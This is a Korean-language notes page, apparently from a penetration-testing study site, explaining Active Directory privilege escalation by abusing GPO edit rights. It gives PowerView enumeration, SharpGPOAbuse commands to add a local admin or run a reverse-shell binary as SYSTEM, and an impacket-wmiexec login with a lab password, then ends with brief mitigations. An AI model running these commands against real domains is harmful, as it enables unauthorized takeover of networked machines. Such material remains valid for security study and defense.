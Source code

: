 ```yaml
---
layout: page
title: GPO
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


# GPO(그룹 정책 개체)를 이용한 권한 상승 가이드

GPO(Group Policy Object)는 Active Directory 내의 사용자 및 컴퓨터에 대한 정책(소프트웨어 설치, 스크립트 실행, 암호 정책 등)을 중앙에서 관리하는 강력한 기능입니다. 만약 공격자가 특정 GPO를 편집할 권한을 획득한다면, 해당 GPO가 적용되는 모든 컴퓨터에서 `SYSTEM` 권한으로 코드를 실행할 수 있습니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어할 수 있는 계정이 편집 권한을 가진 GPO를 찾습니다.
- **핵심 도구:** BloodHound, PowerView

#### **BloodHound 활용**
- BloodHound는 이 공격 경로를 시각적으로 보여주는 가장 효과적인 도구입니다. "Find GPO Edit Rights" 또는 "Find Shortest Paths to Domain Admins" 같은 쿼리를 실행하면, 현재 사용자가 편집할 수 있는 GPO와 그 영향력을 한눈에 파악할 수 있습니다.

#### **PowerView를 이용한 수동 열거**
- `PowerView.ps1` 스크립트를 사용하여 특정 GPO의 권한을 수동으로 확인할 수 있습니다.

```powershell
# 특정 GPO의 ACL(Access Control List) 확인
Get-ObjectAcl -ResolveGUIDs -Name "<GPO_Name>"
```

---

### **2. `SharpGPOAbuse`를 이용한 공격**

- **[GitHub 링크](https://github.com/FSecureLABS/SharpGPOAbuse)**
- `SharpGPOAbuse`는 GPO 편집 권한을 악용하는 과정을 자동화해주는 최고의 도구입니다.

#### **공격 시나리오 A: 로컬 관리자 추가 (은밀한 방식)**
- **전략:** GPO를 수정하여 특정 사용자를 GPO가 적용되는 모든 컴퓨터의 로컬 관리자 그룹에 추가합니다. 이 방법은 즉시 셸을 획득하는 것은 아니지만, 탐지될 가능성이 낮습니다.

```powershell
# --AddLocalAdmin: 로컬 관리자 추가 모드
# --UserAccount: 관리자로 추가할 사용자 계정
# --GPOName: 공격 대상 GPO의 이름
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <attacker_user> --GPOName "Vulnerable GPO"
```

#### **공격 시나리오 B: 즉시 실행 작업 추가 (공격적인 방식)**
- **전략:** GPO에 즉시 실행되는 예약 작업을 추가하여, 리버스 셸과 같은 악성 코드를 `SYSTEM` 권한으로 실행시킵니다.

```powershell
# --AddImmediateTask: 즉시 실행 예약 작업 추가 모드
# --Command: 실행할 명령어
# --TaskName: 작업 이름
./SharpGPOAbuse.exe --AddImmediateTask --TaskName "Updates" --Command "C:\Temp\revshell.exe" --GPOName "Vulnerable GPO"
```

#### **정책 업데이트 강제 적용**
- GPO 변경 사항은 기본적으로 90~120분마다 클라이언트 컴퓨터에 적용됩니다. 만약 대상 컴퓨터에 이미 셸이 있다면, `gpupdate /force` 명령어로 정책을 즉시 업데이트하여 공격을 트리거할 수 있습니다.


```powershell
gpupdate /force
```

```powershell
net user enterprise-security
```

```bash
rlwrap impacket-wmiexec 'vulnnet.local/enterprise-security:sand_0873959498'@$target
```

---

### **3. 방어 (Mitigation)**

- **권한 최소화:** GPO 편집 권한은 도메인 관리자(Domain Admins)와 동일한 수준의 민감한 권한으로 취급해야 합니다. `Group Policy Creator Owners` 그룹의 멤버십을 엄격하게 관리하고, 일반 관리자에게 GPO 편집 권한을 위임하지 않습니다.
- **정기적인 감사:** BloodHound나 PowerShell 스크립트를 사용하여 주기적으로 GPO 권한 설정을 감사하고, 비정상적인 권한 할당을 모니터링합니다.

